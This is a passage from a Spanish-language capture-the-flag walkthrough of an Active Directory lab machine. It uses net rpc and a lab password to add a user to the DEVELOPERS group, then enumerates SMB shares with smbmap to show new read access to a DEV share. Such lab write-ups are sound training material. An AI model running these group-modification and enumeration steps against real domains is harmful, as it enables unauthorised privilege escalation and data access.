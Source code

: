 ![image-center](/assets/images/posts/puppy-bloodhound.png)
{: .align-center}

Agregaremos al usuario `levi.james` al grupo `DEVELOPERS` con el comando `net`

~~~ bash
net rpc group addmem 'DEVELOPERS' 'levi.james' -U 'puppy.htb/levi.james%KingofAkron2025!' -S DC.puppy.htb
~~~

Verificaremos que ahora `levi.james` forma parte del grupo `DEVELOPERS` al listar a los miembros

~~~ bash
net rpc group members 'DEVELOPERS' -U 'puppy.htb/levi.james%KingofAkron2025!' -S DC.puppy.htb  
PUPPY\levi.james
PUPPY\ant.edwards
PUPPY\adam.silver
PUPPY\jamie.williams
~~~


## SMB Enumeration

Si realizamos una enumeración nuevamente del servicio `SMB`, notaremos que ahora tenemos acceso con permisos de lectura al recurso compartido `DEV`

~~~ bash
smbmap -H DC.puppy.htb -u 'levi.james' -p 'KingofAkron2025!' 
[+] IP: DC.puppy.htb:445	Name: unknown                                           
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	DEV                                               	READ ONLY	DEV-SHARE for PUPPY-DEVS
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
~~~
